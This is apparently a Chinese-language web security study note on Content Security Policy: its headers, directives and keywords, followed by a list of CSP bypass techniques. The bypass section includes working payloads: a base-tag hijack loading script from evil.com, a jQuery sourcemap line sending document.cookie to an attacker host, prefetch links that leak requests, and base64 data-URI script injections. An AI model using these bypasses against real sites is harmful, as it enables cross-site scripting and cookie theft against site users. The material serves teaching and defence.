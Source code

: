 
# CSP
Content Security Policy，简称 CSP，译作内容安全策略。顾名思义，这个规范与内容安全有关，主要是用来定义哪些资源可以被当前页面加载，减少 XSS 的发生。

## 配置

CSP策略可以通过 HTTP 头信息或者 meta 元素定义。

CSP 有三类：

- Content-Security-Policy  (Google Chrome)
- X-Content-Security-Policy (Firefox)
- X-WebKit-CSP (WebKit-based browsers, e.g. Safari)

    HTTP header :
    "Content-Security-Policy:" 策略
    "Content-Security-Policy-Report-Only:" 策略


HTTP Content-Security-Policy 头可以指定一个或多个资源是安全的，而Content-Security-Policy-Report-Only则是允许服务器检查（非强制）一个策略。多个头的策略定义由优先采用最先定义的。

HTML Meta :

    <meta http-equiv="content-security-policy" content="策略">
    <meta http-equiv="content-security-policy-report-only" content="策略">


## 指令说明

| 指令 | 说明 |
| :----: | :----: |
| default-src | 定义资源默认加载策略 |
| connect-src | 定义 Ajax、WebSocket 等加载策略 |
| font-src | 定义 Font 加载策略 |
| frame-src | 定义 Frame 加载策略 |
| img-src| 定义图片加载策略 |
| media-src | 定义 <audio>、<video> 等引用资源加载策略 |
| object-src | 定义 <applet>、<embed>、<object> 等引用资源加载策略 |
| script-src | 定义 JS 加载策略 |
| style-src | 定义 CSS 加载策略 |
| base-uri | 定义 <base> 根URL策略，不使用default-src作为默认值 |
| sandbox | 值为 allow-forms，对资源启用 sandbox |
| report-uri | 值为 /report-uri，提交日志 |

## 关键字

- ``-``
    - 允许从任意url加载，除了 ``data:`` ``blob:`` ``filesystem:`` ``schemes``
    - e.g. ``img-src -``
- ``none``
    - 禁止从任何url加载资源
    - e.g. ``object-src 'none'``
- ``self``
    - 只可以加载同源资源
    - e.g. ``img-src 'self'``
- ``data:``
    - 可以通过data协议加载资源
    - e.g. ``img-src 'self' data:``
- ``domain.example.com``
    - e.g. ``img-src domain.example.com``
    - 只可以从特定的域加载资源
- ``\*.example.com``
    - e.g. ``img-src \*.example.com``
    - 可以从任意example.com的子域处加载资源
- ``https://cdn.com``
    - e.g. ``img-src https://cdn.com``
    - 只能从给定的域用https加载资源
- ``https:``
    - e.g. ``img-src https:``
    - 只能从任意域用https加载资源
- ``unsafe-inline``
    - 允许内部资源执行代码例如style attribute,onclick或者是sicript标签
    - e.g. ``script-src 'unsafe-inline'``
- ``unsafe-eval``
    - 允许一些不安全的代码执行方式，例如js的eval()
    - e.g. ``script-src 'unsafe-eval'``
- ``nonce-<base64-value>'``
    - 使用随机的nonce，允许加载标签上nonce属性匹配的标签
    - e.g. ``script-src 'nonce-bm9uY2U='``
- ``<hash-algo>-<base64-value>'``
    - 允许hash值匹配的代码块被执行
    - e.g. ``script-src 'sha256-<base64-value>'``

## 配置范例

允许执行内联 JS 代码，但不允许加载外部资源

    Content-Security-Policy: default-src 'self'; 
    script-src 'self' 'unsafe-inline';

## 预加载

浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有unsafe-inline，则用预加载的方式可以向外界发出请求，例如

    <!-- 预加载某个页面 -->
    <link rel='prefetch' href='http://xxxx'><!-- firefox -->
    <link rel='prerender' href='http://xxxx'><!-- chrome -->
    <!-- 预加载某个图片 -->
    <link rel='prefetch' href='http://xxxx/x.jpg'>
    <!-- DNS 预解析 -->
    <link rel="dns-prefetch" href="http://xxxx">
    <!-- 特定文件类型预加载 -->
    <link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

- URL中包含下载资源
- 页面中包含音频、视频
- POST、PUT和DELET操作的ajax请求
- HTTP认证
- HTTPS页面
- 含恶意软件的页面
- 弹窗页面
- 占用资源很多的页面
- 打开了chrome developer tools开发工具

## MIME Sniff

举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再``<script href='http://xxx.com/xx.jpg'>``，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本

## 302跳转

对于302跳转绕过CSP而言，实际上有以下几点限制：

- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致

## iframe

当可以执行代码时，可以创建一个源为 ``css`` ``js`` 等静态文件的frame，在配置不当时，该frame并不存在csp，则在该frame下再次创建frame，达到bypass的目的。同理，使用 ``../../../`` ``/%2e%2e%2f`` 等可能触发服务器报错的链接也可以到达相应的目的。

## base-uri

当script-src为nonce或无限制，且base-uri无限制时，可通过 ``base`` 标签修改根URL来bypass，如下加载了http://evil.com/main.js

    <base href="http://evil.com/">
    <script nonce="correct value" src="/main.js"></script>

## 其他

- location 绕过
- 可上传SVG时，通过恶意SVG绕过同源站点
- 存在CRLF漏洞且可控点在CSP上方时，可以注入HTTP响应中影响CSP解析
- CND Bypass，如果网站信任了某个CDN, 那么可利用相应CDN的静态资源bypass
- Angular versions <1.5.9 >=1.5.0，存在漏洞 `Git Pull Request <https://github.com/angular/angular.js/pull/15346>`_
- jQuery sourcemap 

        document.write(`<script>
        //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
- a标签的ping属性
- For FireFox ``<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">``
- ``<link rel="import" />``
- ``<meta http-equiv="refresh" content="0; url=http://...." />``
- 仅限制 ``script-src`` 时：
    - ``<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>``
